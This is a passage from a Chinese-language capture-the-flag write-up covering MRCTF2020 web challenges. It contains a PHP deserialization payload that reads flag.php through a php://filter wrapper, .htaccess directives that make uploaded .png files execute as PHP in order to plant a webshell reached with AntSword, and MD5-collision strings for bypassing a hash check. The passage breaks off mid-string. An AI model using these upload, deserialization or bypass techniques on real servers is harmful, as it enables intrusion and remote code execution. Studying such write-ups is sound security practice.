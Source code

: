 绕过的话，php7.1+的版本对属性类型不敏感，本地序列化的时候可以使用public绕过。

（protected/private类型的属性序列化后产生不可打印字符，public类型则不会。）

```php
<?php
class FileHandler {
    public $op=2;
    public $filename='php://filter/read=convert.base64-encode/resource=flag.php';
    public $content;
}
$a=new FileHandler();
echo serialize($a);
?>
```

总的来说这道题还是很有意思的，学到了很多。

## 0x1C.[MRCTF2020]你传你🐎呢

上传.htaccess，有几种写法：

>   SetHandler application/x-httpd-php

```
<FilesMatch "bbb">
SetHandler application/x-httpd-php
</FilesMatch>
//其中bbb是要包含的文件，都会被当做php来执行
```

>   ```
>   AddType application/x-httpd-php .png
>   ```



大致就上面3种写法吧。

PS：当时一直连不上。。原来是htaccess写成了htacess

然后就社写马上传蚁剑连接就ok了。

## 0x1D.[MRCTF2020]Ez_bypass

第一个绕过有两种绕法，之前的一个绕md5的题中也写了：

第一种：MD5碰撞

>   ?gg=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&id=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

或者

```
$s1 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"
```
